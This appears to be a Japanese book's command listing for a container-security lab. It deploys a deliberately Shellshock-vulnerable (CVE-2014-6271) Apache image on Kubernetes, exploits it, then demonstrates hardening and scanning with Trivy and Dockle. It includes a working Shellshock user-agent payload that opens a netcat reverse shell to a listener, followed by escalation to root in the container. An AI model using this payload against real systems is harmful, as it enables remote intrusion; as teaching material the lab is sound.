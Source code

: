 # ケース1: コンテナの脆弱性を悪用されてしまった

`コンテナイメージのビルド（cve-2014-6271-apache-debian:buster）`
```bash
ls

docker build -t <Docker ID>/cve-2014-6271-apache-debian:buster .
```

`コンテナイメージのアップロード（cve-2014-6271-apache-debian:buster）`
```bash
docker push <Docker ID>/cve-2014-6271-apache-debian:buster
```

`コンテナイメージのビルド（sample-web:case1）`
```bash
ls

docker build -t <Docker ID>/sample-web:case1 .
```

`コンテナイメージのアップロード（sample-web:case1）`
```bash
docker push <Docker ID>/sample-web:case1
```

`PodとServiceのデプロイ`
```bash
kubectl apply -f sample-web.yaml
```

`minikube tunnelコマンドの実行`
```bash
minikube tunnel
```

`PodおよびServiceの状態確認`
```bash
kubectl get all -l app=sample-web
```

```bash
kubectl port-
forward -n security service/sample-web 30050:80
macで実施
ssh -L 30050:127.0.0.1:30050 naritomo@192.168.11.34

もしくは
kubectl port-forward --address 0.0.0.0 -n security service/sample-web 30050:80
```

`curlコマンドによるアクセス確認`
```bash
curl http://127.0.0.1:30050
curl http://192.168.11.34:30050
```

`ターミナル1: ncコマンドの実行`
```bash
nc -nvlp 5050
```

`ターミナル2: curlコマンドによる不正なリクエストの送信`
```bash
curl -H "user-agent: () { :; }; echo; /bin/nc -e /bin/bash <端末のIPアドレス> 5050" http://<EXTERNAL-IP>/cgi-bin/vulnerable
```

`ターミナル1: Podに含まれるコンテナへの侵入`
```bash
hostname

id
```

`ターミナル1: コンテナ内でのrootユーザーへの切り替え`
```bash
sudo su -

id
```

`ターミナル1: rootユーザー権限での操作`
```bash
cd /

touch test

ls /test

apt-get update

apt-get install -y curl

curl -h
```

`通常のhttpdとalpineベースのサイズ比較`
```bash
docker pull httpd:2.4.57

docker pull httpd:2.4.57-alpine

docker images httpd
```

`リストX.1.23. hello-worldコンテナの起動`
```bash
docker run --rm hello-world
```

`コンテナイメージのサイズ確認（マルチステージビルドなし）`
```bash
docker build -t <Docker ID>/sample-web:go-standard -f Dockerfile-standard .

docker images <Docker ID>/sample-web:go-standard
```

`コンテナイメージのサイズ確認（マルチステージビルドあり）`
```bash
docker build -t <Docker ID>/sample-web:go-multi -f Dockerfile-multi .

docker images <Docker ID>/sample-web:go-multi
```

`リポジトリへのコンテナイメージアップロード（sample-web-go）`
```bash
docker push <Docker ID>/sample-web:go-standard

docker push <Docker ID>/sample-web:go-multi
```

`Podのデプロイと確認`
```bash
kubectl apply -f sample-web-go-standard.yaml

kubectl apply -f sample-web-go-multi.yaml

kubectl get pods -l app=sample-web-go
```

`sample-web-go-standardに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-standard -- /bin/bash

root@sample-web-go-standard:/go/src/app# ps aux

root@sample-web-go-standard:/go/src/app# exit
```

`sample-web-go-multiに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-multi -- /bin/bash
```

`エフェメラルコンテナの使用`
```bash
kubectl debug -it sample-web-go-multi --image=busybox:1.28 --target=web

/ # ps aux

/ # ls /proc/1/root

/ # exit
```

`エフェメラルコンテナの状態確認`
```bash
kubectl describe pod sample-web-go-multi
```


`Trivyのインストール`
```bash
curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sudo sh -s -- -b /usr/local/bin v0.50.1
```

`Trivyによるコンテナイメージのスキャン（2024年4月時点）`
```bash
trivy image <Docker ID>/sample-web:case1
```

`Dockleのインストール`
```bash
curl -LO https://github.com/goodwithtech/dockle/releases/download/v0.4.14/dockle_0.4.14_Linux-64bit.tar.gz

tar xvf dockle_0.4.14_Linux-64bit.tar.gz

chmod +x ./dockle

sudo mv ./dockle /usr/local/bin/dockle
```

`Dockleによるコンテナイメージのスキャン（2024年4月時点）`
```bash
dockle <Docker ID>/sample-web:case1
```

`検証に使用したリソースの削除`
```bash
kubectl delete pod sample-web \
    sample-web-go-standard \
    sample-web-go-multi

kubectl delete service sample-web
```